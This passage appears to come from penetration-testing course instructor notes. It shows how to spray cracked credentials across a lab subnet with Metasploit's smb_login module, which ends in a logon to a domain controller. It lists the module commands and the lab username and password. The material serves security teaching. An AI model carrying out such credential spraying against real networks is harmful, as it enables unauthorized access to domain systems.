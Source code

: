 Now that we have a new set of credentials, we can test its access by spraying the credentials across the network. 

1. Demonstrate this to students by loading the smb_login module in Metasploit.

	- `use auxiliary/scanner/smb/smb_login`

2. Next, fill in the SMBDomain, SMBUser, SMBPass, and RHOSTS fields.

	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set SMBDomain megacorpone`
	
	- `set RHOSTS 172.22.117.0/28`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the options settings of the module.](Images/smblogin.PNG)

3. Run the exploit.

	- `run`
	
4. Once the scan gets to 172.22.117.10, you should see a successful logon. This is the IP address of WINDC01, meaning the credentials we cracked were highly privileged and we now have access to a DC.
